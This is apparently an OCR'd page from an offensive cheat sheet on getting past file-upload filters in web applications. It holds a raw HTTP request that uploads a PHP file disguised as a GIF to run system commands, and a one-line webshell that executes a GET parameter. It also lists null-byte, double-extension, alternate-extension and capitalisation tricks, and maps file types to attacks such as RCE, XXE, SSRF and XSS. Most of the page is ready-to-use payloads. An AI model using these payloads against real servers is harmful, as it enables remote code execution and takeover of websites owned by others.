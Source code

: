 ## Upload the payload, but start with GIF89a; and
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/gif

GIF89a; <?php system("id") ?>
```
And don't forget to change the content type to image/gif

## Bypass content length validation, It can be bypassed using the small payload
```
(<?=`$_GET[x]`?>)
```

## Using null byte in the filename
```
file.php%00.gif
```

## Using double extensions for the uploaded file
```
file.jpg.php
```

##  Uploading an unpopular php extensions (php4,php5,php6,phtml)
```
file.php5
```

## Try to randomly capitalize the file extension
```
file.pHP5
```

## Mix the tips!


- Upload Function
    - Extensions Impact
        - `ASP`, `ASPX`, `PHP5`, `PHP`, `PHP3`: Webshell, RCE
        - `SVG`: Stored XSS, SSRF, XXE
        - `GIF`: Stored XSS, SSRF
        - `CSV`: CSV injection
        - `XML`: XXE
        - `AVI`: LFI, SSRF
        - `HTML`, `JS` : HTML injection, XSS, Open redirect
        - `PNG`, `JPEG`: Pixel flood attack (DoS)
        - `ZIP`: RCE via LFI, DoS
        - `PDF`, `PPTX`: SSRF, BLIND XXE
    - Blacklisting Bypass
        - PHP → `.phtm`, `phtml`, `.phps`, `.pht`, `.php2`, `.php3`, `.php4`, `.php5`, `.shtml`, `.phar`, `.pgif`, `.inc`
        - ASP → `asp`, `.aspx`, `.cer`, `.asa`
        - Jsp → `.jsp`, `.jspx`, `.jsw`, `.jsv`, `.jspf`
        - Coldfusion → `.cfm`, `.cfml`, `.cfc`, `.dbm`